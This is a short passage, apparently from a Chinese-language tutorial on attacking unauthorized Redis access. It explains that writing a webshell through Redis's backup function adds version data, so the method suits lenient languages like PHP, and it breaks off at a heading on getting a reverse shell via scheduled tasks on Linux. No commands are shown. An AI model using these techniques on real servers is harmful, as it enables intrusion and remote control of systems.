

经过观察我们可以看到，因为其本质操作为数据库备份，所以会带上很多的redis版本信息，对于我们来说就是脏数据

因此这种方法写入webshell仅适用于php之类对格式要求不严格的语言，对代码格式要求严格的语言会无法正常执行

### 计划任务反弹shell

**使用范围：Linux**

